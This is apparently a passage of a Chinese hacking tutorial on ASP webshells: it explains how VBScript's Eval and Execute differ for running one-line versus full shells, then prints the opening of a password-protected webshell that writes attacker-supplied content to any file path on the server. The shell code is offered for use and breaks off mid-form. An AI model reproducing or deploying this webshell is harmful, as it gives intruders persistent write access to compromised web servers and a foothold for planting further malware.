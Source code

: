 ### eval与execute

#### Eval 计算一个表达式的值并返回结果

语法：[result = ]Eval(expression)

expression 为任意有效 VBScript 表达式的字符串

示例：response.Write(eval("3+2")) '输出 5

"3+2" 使用引号括起来，表示是一个字符串，但是在 Eval “眼里”，把它当作一个表达式 3+2 来执行。

#### Execute 执行一个或多个指定的语句。多个语句间用冒号（:）隔开

语法：Execute statements

示例：Execute "response.Write(""abc"")" '输出 abc

"response.Write(""abc"")" 使用引号括起来，表示是一个字符串，但是在 Execute “眼里”，把它当作一个语句 response.Write("abc") 来执行。

也就是说对于小马来说只有一句话，所以两者用哪个都可以

但是大马是多句，就不能用eval来执行了，而要用execute

## 具体实现

首先随便找个大马

```
<%
on error resume next
%>
<%
  if request("pass")="g" then  '在这修改密码
  session("pw")="go"
  end if
%>
<%if session("pw")<>"go" then %>
<%="<center><br><form action='' method='post'>"%>
<%="<input name='pass' type='password' size='10'> <input "%><%="type='submit' value='test'></center>"%>
<%else%>
<%
set fso=server.createobject("scripting.filesystemobject")
path=request("path")
if path<>"" then
data=request("da")
set da=fso.createtextfile(path,true)
da.write data
if err=0 then
%>
<%="yes"%>
<%else%>
<%="no"%>
<%
end if
err.clear
end if
da.close
%>
<%set da=nothing%>
<%set fos=nothing%>
<%="<form action='' method=post>"%>
<%="<input type=text name=path>"%>
<%="<br>"%>
<%="当前文件路径:"&server.mappath(request.servervariables("script_name"))%>
<%="<br>"%>
```